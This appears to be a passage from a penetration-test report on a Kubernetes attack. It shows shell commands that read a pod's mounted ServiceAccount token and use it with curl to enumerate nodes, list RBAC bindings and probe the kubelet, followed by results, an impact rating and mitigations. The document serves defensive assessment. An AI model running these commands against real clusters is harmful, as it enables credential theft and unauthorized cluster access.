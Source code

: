 ### Objective
Use a pod’s mounted ServiceAccount token to query the Kubernetes API and attempt kubelet access, assessing the impact of over-privileged default tokens.

### Attack Procedure
```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc
# Enumerate nodes
curl -k -s --header "Authorization: Bearer $TOKEN" $APISERVER/api/v1/nodes | jq .
# List cluster-role bindings
curl -k -s --header "Authorization: Bearer $TOKEN" $APISERVER/apis/rbac.authorization.k8s.io/v1/clusterrolebindings | jq .
# Attempt kubelet access
curl -k https://$(hostname -i):10250/pods
```

### Results

**Before Mitigation:**
```
✅ UNAUTHORIZED ACCESS SUCCESSFUL
Node and RBAC enumeration possible
Kubelet /pods endpoint accessible
```

**After Mitigation:**
```
❌ ACCESS BLOCKED
403 Forbidden – insufficient RBAC
Kubelet endpoint unreachable
```

### Impact Assessment
- **Severity:** CRITICAL  
- **Business Impact:** Full cluster compromise possible  
- **Technical Impact:** Creation of privileged pods, lateral movement

### Mitigation Implementation
- Disable `automountServiceAccountToken` for untrusted pods  
- Apply least-privilege RBAC (Role/RoleBinding)  
- Remove permissive ClusterRoleBindings

### Artifacts Collected
- ServiceAccount token dump  
- API server query logs  
- Kubelet access attempts  
- RBAC YAML configurations

---

## Attack Scenario 10: NGAP Injection (RAN → AMF Signaling Fuzzing)
